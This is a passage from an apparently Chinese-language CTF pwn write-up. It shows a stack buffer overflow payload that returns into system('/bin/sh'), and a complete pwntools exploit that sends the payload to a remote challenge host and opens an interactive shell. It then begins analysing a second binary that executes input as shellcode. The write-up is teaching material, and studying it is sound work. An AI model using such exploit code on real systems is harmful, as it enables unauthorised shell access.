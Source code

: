然后在ida pro string 的窗口里又找到了

```
Address	Length	Type	String
.data:0804A024	00000008	C	/bin/sh
```

通过构造伪栈帧

我们可以执行命令system("/bin/sh")

### Payload:

```python
shell_addr = 0x0804A024
system_addr = 0x08048320

payload= "a"*(0x88+0x4)+p32(system_addr)+"a"*0x04+p32(shell_addr)
```
0x88用于覆盖缓冲区，0x04用于覆盖ebp地址的字符，接着覆写返回地址为system_addr(system的栈帧中的ebp地址)，0x04填充system函数的返回地址，p32(shell_addr)自然就是system的参数

### Exp:

```python
#coding=utf-8
from pwn import *

shell_addr = 0x0804A024
system_addr = 0x08048320

payload= "a"*(0x88+0x4)+p32(system_addr)+"a"*0x04+p32(shell_addr)

io=remote("111.198.29.45","35613")
io.sendlineafter("Input:\n",payload)
io.interactive()
```

## 0x07 string

checksec:

```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
拖进IDA里，发现有好多函数

> tips:可以在IDA pro内替换函数名使程序变得更清晰

分析函数，其中有

```cpp
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD, void *))v1)(0LL, v1);//v1中的内容被当作一段函数执行
  }
```
